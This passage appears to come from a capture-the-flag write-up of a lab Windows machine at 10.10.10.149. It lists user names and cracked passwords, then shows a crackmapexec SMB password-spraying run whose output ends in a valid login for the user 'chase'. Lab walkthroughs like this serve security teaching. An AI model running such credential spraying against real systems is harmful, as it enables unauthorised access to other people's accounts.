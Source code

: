 Now we found additional users.<br>
Then try to bruteforce the SMB again.
{% highlight shell %}
root@kali:~# cat users.txt 
administrator
guest
defaultaccount
WDAGUtilityAccount
support
chase
jason

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# cat passwords.txt 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt 
CME          10.10.10.149:445 SUPPORTDESK     [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SUPPORTDESK)
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\administrator:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\administrator:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\guest:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\guest:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\guest:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\defaultaccount:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\defaultaccount:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\defaultaccount:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\WDAGUtilityAccount:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\WDAGUtilityAccount:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\WDAGUtilityAccount:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\support:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\support:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\chase:stealth1agent STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\chase:$uperP@ssword STATUS_LOGON_FAILURE 
CME          10.10.10.149:445 SUPPORTDESK     [+] SUPPORTDESK\chase:Q4)sJu\Y8qz*A3?d 
[*] KTHXBYE!

root@kali:~#
{% endhighlight %}